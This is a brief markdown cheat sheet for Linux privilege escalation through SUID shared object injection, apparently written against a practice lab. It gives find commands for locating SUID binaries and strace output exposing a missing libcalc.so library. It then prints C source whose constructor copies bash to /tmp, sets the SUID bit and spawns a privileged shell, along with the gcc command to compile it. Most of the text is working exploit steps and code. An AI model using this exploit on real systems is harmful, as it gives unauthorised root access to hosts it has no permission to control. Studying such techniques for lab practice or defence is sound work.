    ## Enumeration
    
    find / -perm -u=s -type f 2>/dev/null
    find / -type f -perm -04000 -ls 2>/dev/null
        
        
   ## Resource 
   
     https://gtfobins.github.io/
       
  ## Shared Object Injection
  
    find / -type f -perm -04000 -ls 2>/dev/null
    strace <PATH=2>&1
       
       
  ## TYPE COMMAND 
  
    strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
  
  
  ## OUTPUT
 
         
         
## access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
## open("/etc/ld.so.cache", O_RDONLY)      = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libdl.so.2", O_RDONLY)       = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libm.so.6", O_RDONLY)        = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libc.so.6", O_RDONLY)        = 3
## open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)


   ## Exploit Shared Object Injection
   
   mkdir /home/user/.config
       
   Create C file Type Some Commands
       
    #include <stdio.h>
    #include <stdlib.h>

    static void inject()__attribute__((constructor));

    void inject() {
      system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
    }
   
   ## Complie

    gcc -shared -fpic -o /home/user/.config/libcalc.so /home/user/libcalc.c










     
    
